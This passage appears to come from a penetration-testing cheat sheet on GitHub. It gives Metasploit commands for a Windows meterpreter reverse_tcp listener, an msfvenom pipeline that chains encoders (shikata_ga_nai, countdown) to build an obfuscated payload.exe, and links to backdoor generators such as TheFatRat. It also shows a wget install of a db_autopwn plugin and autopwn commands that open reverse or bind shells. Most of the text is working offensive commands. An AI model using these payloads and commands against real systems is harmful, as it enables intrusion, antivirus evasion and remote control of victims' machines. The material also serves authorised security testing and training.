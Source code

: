         Connecting with meterpreter:

        ``` bash
        msf> use exploit/multi/handler
        msf> set payload windows/meterpreter/reverse_tcp
        msf> set lhost 10.0.0.1
        msf> set lport 12344
        msf> exploit -j # -j option is to keep all the connected sessions in the background
        ```

        msfvenom encoders can be chained, e.g.:

        ``` bash
        msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=12344 -f raw -e x86/shikata_ga_nai -i 3 | \
        msfvenom -a x86 --platform windows -e x86/countdown -i 5  -f raw | \
        msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 8 -f exe -o payload.exe
        ```

    * [msfpc](https://github.com/g0tmi1k/mpc) - msfvenom payload creator (user-friendly msfvenom wrapper)
    * [TheFatRat](https://github.com/Screetsec/TheFatRat) - massive exploiting tool targeted at Windows exploitation - *very user-friendly* (looks like instrument is just using metasploit, Veil, ..., but no additional technics in it) ([usage example](http://www.yeahhub.com/generate-100-fud-backdoor-thefatrat-windows-10-exploitation/))


    * **Autopwn**
        
        *   ***metasploit's db_autopwn*** ([video sample](https://www.youtube.com/watch?v=V-JBUXtuV0Q))
            <br> installation: `wget https://raw.githubusercontent.com/hahwul/metasploit-db_autopwn/master/db_autopwn.rb -P /usr/share/metasploit-framework/plugins/`
            <br> Check at lines 412, 414, 428, 430 selected payloads (better change it to x64) or there can be some problems.

            ```
            msfconsole

            msf > workspace -a lab1
            msf > # workspace -d lab1

            msf > db_import file.xml # nmap xml, nessus xml, acunetix, ...
            msf > db_nmap … # same command to nmap

            msf > hosts -h
            msf > services -h
            msf > creds -h

            msf > db_export -f xml /path/to/file.xml

            msf > load db_autopwn
            msf > db_autopwn -t -p -e -R 0 -r
                # -r - reverse shell
                # -b - bind shell
                # -v - verbose
            msf > sessions -l
            ```
